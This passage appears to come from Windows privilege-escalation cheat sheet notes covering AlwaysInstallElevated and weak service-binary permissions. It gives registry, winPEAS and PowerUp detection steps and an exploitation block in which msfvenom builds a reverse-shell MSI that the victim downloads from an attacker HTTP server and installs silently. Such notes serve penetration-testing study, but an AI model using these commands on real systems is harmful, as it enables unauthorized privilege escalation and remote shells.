 ```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

If both values are equal to 1 then it's vulnerable.
```

or

```
winPEAS.exe

[+] Checking AlwaysInstallElevated(T1012)

  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > program.msi
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.msi', 'C:\Temp\program.msi')
msiexec /quiet /qn /i C:\Temp\program.msi
```

#### Executable Files

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service executable and argument permissions...

ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Traverse, DeleteChild...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

filepermsvc(Apache Software Foundation - File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
	File Permissions: Everyone [AllAccess]
```
